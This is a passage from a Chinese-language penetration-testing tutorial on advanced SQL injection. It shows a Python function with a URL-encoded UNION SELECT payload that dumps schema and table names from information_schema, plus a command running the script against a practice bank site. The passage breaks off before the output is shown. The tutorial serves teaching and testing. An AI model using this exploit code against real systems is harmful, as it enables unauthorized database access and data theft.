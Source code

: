 # 高级 SQLi 利用

在这一部分，我们将添加一个函数，以读取数据库中的所有表名，并将添加一个函数，以从数据库服务器操作系统中读取文件。

首先，我们将看到如何获取数据库中的所有表名，以便查看是否有感兴趣的内容，然后我们将添加从操作系统文件系统中获取决赛的能力。

现在，让我们打开文件`SQLinjector-3.py`。我们在这里添加了一个新函数，它将帮助我们获取不同模式中的表名，除了我们正在过滤以减少输出中的噪音的那些：

```py
def detect_table_names(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%20CONCAT('TOK',
  table_schema,'TOK'),CONCAT('TOK',table_name,'TOK')%20FROM
  %20information_schema.tables%20WHERE%20table_schema%20!=%20
  %27mysql%27%20AND%20table_schema%20!=%20%27information_schema%27
  %20and%20table_schema%20!=%20%27performance_schema%27%20--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  tables=re.findall(reg,req.content)
  for table in tables:
    print table
```

结构与以前相同；我们有需要的查询，用于帮助传递结果和用于传递结果的正则表达式，然后我们打印结果。最后，在`launcher`中进行函数调用。让我们在命令行中再次运行它。

从命令行中，让我们使用与以前相同的参数运行它，使用`SQLinjector-3.py`和相同的参数：

```py
python SQLinjector-3.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

很好，现在您可以在输出中看到我们获得了模式名称和表名称：
